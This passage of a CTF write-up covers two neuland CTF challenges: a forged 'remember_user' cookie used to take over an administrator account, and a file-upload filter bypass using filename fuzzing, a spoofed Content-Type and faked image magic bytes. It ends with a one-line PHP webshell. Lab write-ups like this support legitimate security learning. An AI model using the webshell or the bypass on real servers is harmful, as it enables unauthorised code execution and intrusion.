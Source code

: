 ![](/assets/blog/neuland-ctf-12-2023/odyssey7.webp)

<br>

Finally, we just need to set the generated token as cookie `remember_user`, which will give us access to the account `administrator`.

<br>

![](/assets/blog/neuland-ctf-12-2023/odyssey8.webp)

<br>

The flag is `nland{yOu_ArE_N0t_OuR_aDMinI5tr4T0r!}`.

<br>

## Review - Hard
Author: [Fabi](https://github.com/fabifighter007)</br>

*On the page we find a review form.*

<br>

![](/assets/blog/neuland-ctf-12-2023/upload1.webp)

<br>

To see what happens after the form is submitted, we use [Burp Suite](https://portswigger.net/burp). We notice that we can submit username, review, number of stars and a photo.

<br>

![](/assets/blog/neuland-ctf-12-2023/upload2.webp)

<br>

When we examine the HTML code of the page, we find that the image on the default page is hosted in the 'uploads' folder. Here we also find our previously uploaded images. 
If we successfully upload PHP code, it will also end up in the uploads folder and become accessible on the web server, potentially enabling us to execute code on the target system. Unfortunately, we realize that we cannot upload a php file because the server filters it out. We therefore use Burp's Intruder to automatically search for possible filenames in order to bypass the filter. In addition, we modify the filename, the Content-Type and [File Magic Numbers](https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5) to imitate a image:

<br>

![](/assets/blog/neuland-ctf-12-2023/upload3.webp)

<br>

Furthermore, we set the content of the 'image' to a webshell:

```
<?php system($_REQUEST['cmd']); ?>
```
